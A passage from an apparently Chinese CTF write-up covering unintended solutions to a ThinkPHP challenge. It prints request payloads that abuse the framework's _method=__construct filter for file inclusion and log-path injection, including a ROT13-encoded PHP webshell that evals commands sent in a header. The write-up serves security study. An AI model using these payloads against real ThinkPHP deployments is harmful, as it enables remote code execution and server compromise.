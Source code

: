 ![image.png](./img/38.png)
![image.png](./img/39.png)

### 非预期2
文件包含没修完全导致的使用php过滤器+rot13绕过语法错误。
来自 `vidar-team` 的payload
`b=../public/./<?cuc riny(trgnyyurnqref()["pzq"]);?>&_method=__construct&filter=think\Build::moudle&a=1&method=GET` 
`b=php://filter/read=string.rot13/resource=./<?cuc riny(trgnyyurnqref()["pzq"]);?>/controller/Index.php&_method=__construct&filter=think\__include_file&a=1&method=GET`

### 非预期3
`_method=__construct&filter[]=json_decode&filter[]=get_object_vars&filter[]=think\Log::init&method=GET&get[]={"type":"File", "path":"/var/www/html/public/logs"}` 

`0ops` 的师傅在 `think\Log::init` 找到了另一个利用
传入了一个数组参数: `File` 和 `/var/www/html/public/logs` 

![image.png](./img/40.png)
